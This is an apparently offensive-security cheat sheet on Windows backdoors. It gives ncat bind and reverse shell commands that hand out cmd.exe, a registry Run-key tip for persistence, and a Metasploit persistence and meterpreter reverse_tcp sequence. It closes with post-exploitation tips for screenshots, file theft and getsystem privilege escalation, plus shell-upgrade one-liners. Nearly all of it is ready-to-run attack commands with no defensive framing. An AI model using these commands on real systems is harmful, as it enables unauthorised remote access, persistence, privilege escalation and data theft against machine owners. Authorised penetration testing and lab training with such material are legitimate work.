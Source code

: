 #### Backdoor using ncat
Victim:
```bash
ncat -l -p 5555 -e cmd.exe
```
Attacker (the IP of the victim):
```bash
ncat 192.168.1.66 5555
```

#### Reverse Backdoor using ncat
Attacker:
```bash
ncat -l -p 5555 -v
```
Victim (the IP of the attacker):
```bash
ncat -e cmd.exe 192.168.1.66 5555
```
Tip: For persistent reverse backdoor use the registry key `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

#### Reverse Backdoor using Metasploit
```bash
msfconsole
use exploit/windows/local/s4u_persistence
show options
sessions
set session <session-id>
set trigger logon
set payload windows/meterpreter/reverse_tcp
set lhost <local-ip>
set lport 1234
exploit
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set lhost <local-ip>
set lport 1234
exploit
sysinfo
ps
help
```
Tip: once we get a shell we can use `screenshot` to get a picture of what the victim is seeing on the Desktop  
Tip: once we get a shell we can use `download filename location` to save the filename in the specified location on our machine  
Tip: Same syntax as above but use `upload` to upload files  
Tip: Use `getsystem` to gain the highest privilege (i.e. SYSTEM) on the compromised machine and `getuid` to check if it actually worked.

#### Upgrading a simple shell
```bash
bash -i
```
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
